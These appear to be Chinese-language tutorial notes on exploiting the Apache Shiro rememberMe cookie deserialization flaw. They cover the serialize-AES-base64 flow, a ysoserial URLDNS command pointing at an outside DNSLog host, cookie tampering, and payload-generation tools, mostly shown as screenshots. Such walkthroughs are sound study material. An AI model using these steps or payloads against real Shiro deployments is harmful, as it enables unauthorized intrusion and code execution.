## Shiro反序列化案例

Java安全框架，能够用于身份验证、授权、加密和会话管理。

登录勾选 Remember Me  点击登录



抓包看见一长串，这是Shiro 的身份验证



代码中这个是对成功登录进行的处理



设置断点 点击调试



登录请求

1、先系列化后

2、aes加密

3、最后base64


解密请求

1、解码巴涩

2、解密aes

3、反序列化数据


比特流数据 base64编码




利用生成DNSLog



使用ysoserial-all1工具生成poc urldns.txt

```
java -jar .\ysoserial-all1.jar URLDNS "http://whisldntmn.yutu.eu.org" > urldns.txt
```



用于加解密的python ai生成的代码



将urldns.txt 和python 放到同级目录



运行python文件



登录抓包



修改Cookie 改成 rememberMe=





## Shiro专业反序列化工具



## 利用java-chains生成 

选则链 填入key



